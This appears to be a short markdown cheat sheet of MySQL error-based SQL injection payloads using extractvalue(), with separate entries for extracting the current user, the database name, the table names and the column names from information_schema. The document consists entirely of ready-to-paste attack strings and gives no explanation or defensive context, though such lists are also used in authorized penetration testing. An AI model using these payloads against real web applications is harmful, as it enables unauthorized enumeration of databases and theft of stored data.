 # XPATH - Error Based SQL Injection Payloads

## Current user
```
-1'+and+extractvalue(0x3b,concat(0x3b,current_user()))--+- 
```

## Database name
```
-1'+and+extractvalue(0x3b,concat(0x3b,database()))--+-
```

## Table names
```
-1'+and+extractvalue(0x3b,concat(0x3b,(select+group_concat(0x3b,table_name)+from+information_schema.tables+where+table_schema=database())))--+-
```

## Column names
```
-1'+and+extractvalue(0x3b,concat(0x3b,(select+group_concat(0x3b,column_name)+from+information_schema.columns+where+table_schema=database()+limit+0,1)))--+-
```
